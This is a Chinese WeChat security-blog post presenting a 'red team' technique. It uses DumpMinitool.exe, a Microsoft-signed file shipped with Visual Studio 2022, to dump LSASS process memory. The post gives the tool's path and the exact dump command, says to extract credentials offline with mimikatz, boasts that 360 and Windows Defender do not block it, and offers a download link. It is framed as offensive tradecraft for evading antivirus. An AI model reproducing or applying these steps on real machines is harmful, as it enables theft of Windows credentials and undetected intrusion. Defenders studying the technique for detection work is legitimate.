 #  红队工具 | Visual Studio2022微软白名单免杀dump lsass的免杀工具

HACK学习君  [ HACK学习君 ](javascript:void\(0\);)

**HACK学习君** ![]()

微信号 XHacker1961

功能介绍
HACK学习，专注于网络安全攻防与黑客精神，分享技术干货，代码审计，安全工具开发，实战渗透，漏洞挖掘，网络安全资源分享，为广大网络安全爱好者和从业人员提供一个交流学习分享的平台

____

__

收录于话题 #安全干货 21个

消息来源推特，推特博主：mr.d0x

  * 

    
    
    https://twitter.com/mrd0x/status/1511415432888131586?s=20&t=twOtT_clemvEYGQ9YdZ02w

可以自行安装Visual Studio2022，然后访问路径，把工具拖出来使用即可，也可以直接在文末获取下载地址  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210402.png)

  

转储 LSASS，该工具文件路径：

  * 

    
    
    C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\Extensions\TestPlatform\Extensions

文件名：DumpMinitool.exe

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210415.png)

参数区分大小写  

使用命令：

  *   *   *   * 

    
    
    DumpMinitool.exe --file dump.txt --processId xxx --dumpType Full--file 输出的路径--processId lsass.exe进程的ID--dumpType 方式

查看lsass进程ID

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210417.png)

dump完成后，再使用mimikatz进行离线解密即可  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210418.png)

mimikatz

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210420.png)

微软的数字签名

![]()

  

免杀测试：360和Win10自带的defender杀软均不拦截。

  

沙箱检测

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210421.png)

微步在线  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210423.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210425.png)  

  

 **下载地址：**

 **  
**

链接：https://pan.baidu.com/s/18IRSjJaM4d2fwjmK9zfQFg

提取码：tfz4

 **  
**

 **点赞，转发，在看**

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210426.png)

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

